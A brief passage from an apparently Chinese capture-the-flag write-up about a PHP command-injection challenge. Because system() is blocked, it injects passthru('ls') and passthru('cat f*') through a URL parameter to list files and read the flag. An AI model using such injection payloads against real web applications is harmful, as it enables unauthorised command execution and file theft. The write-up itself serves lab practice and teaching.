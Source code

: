 system被禁，我们用passthru

```
?a=passthru("ls");
```

![image-20240125164104920](照片/image-20240125164104920.png)

读取flag

```
?a=passthru("cat f*");
```
